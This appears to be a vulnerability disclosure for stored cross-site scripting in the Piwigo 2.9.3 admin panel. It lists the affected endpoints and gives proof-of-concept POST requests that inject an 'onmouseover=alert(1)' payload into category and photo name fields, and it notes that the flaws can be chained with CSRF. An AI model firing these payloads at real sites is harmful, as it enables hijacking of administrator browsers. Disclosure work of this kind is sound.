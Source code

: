 # Stored XSS Vulnerabilities in Piwigo 2.9.3
The management panel of the Piwigo application contains multiple storage type XSS. An attacker can use these vulnerabilities to obtain data from the client's browser side.

### Instance：
/ws.php?format=json POST:name=

/admin.php?page=cat_list POST:virtual_name=

/admin.php?page=photo-${photo_number} POST:name=

Because some exploit do not require token authentication, you can work with CSRF.
### Proof of Concept:
Requst:
```
POST /piwigo-2.9.3/ws.php?format=json HTTP/1.1
Host: 127.0.0.1
Content-Length: 88
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://127.0.0.1/piwigo-2.9.3/admin.php?page=photos_add
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pwg_id=7p8s8ph7rd5q628nhst60qtr72; Phpstorm-dbfe371a=74b16478-2f39-480e-81ad-b2d796746e3b; goods[cart]=180129111198995248; csrftoken=Xm7EJbv8bGscval7HvWsnZvRpX5rTcY8ev7b1ljZZ7GBRqjcB0U6MHDiYz8A2L7S; Hm_lvt_3155433929be1afd6cef849b9709d4d7=1520073895
Connection: close

method=pwg.categories.add&parent=0&name=%3Ca+onmouseover%3Dalert(1)%3Exxs_link%3C%2Fa%3E
```
Response:
![](https://github.com/summ3rf/Vulner/blob/master/image/20180306114101.png)


Request:
```
POST /piwigo-2.9.3/admin.php?page=photo-1 HTTP/1.1
Host: 127.0.0.1
Content-Length: 182
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/piwigo-2.9.3/admin.php?page=photo-1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pwg_id=7p8s8ph7rd5q628nhst60qtr72; 
Connection: close

name=%3Ca+onmouseover%3Dalert%281%29%3Etitle%3C%2Fa%3E&author=&date_creation=&associate%5B%5D=11&represent%5B%5D=11&tags%5B%5D=%7E%7E1%7E%7E&description=&level=0&submit=Save+Settings
```
Response:
![](https://github.com/summ3rf/Vulner/blob/master/image/20180306120939.png)


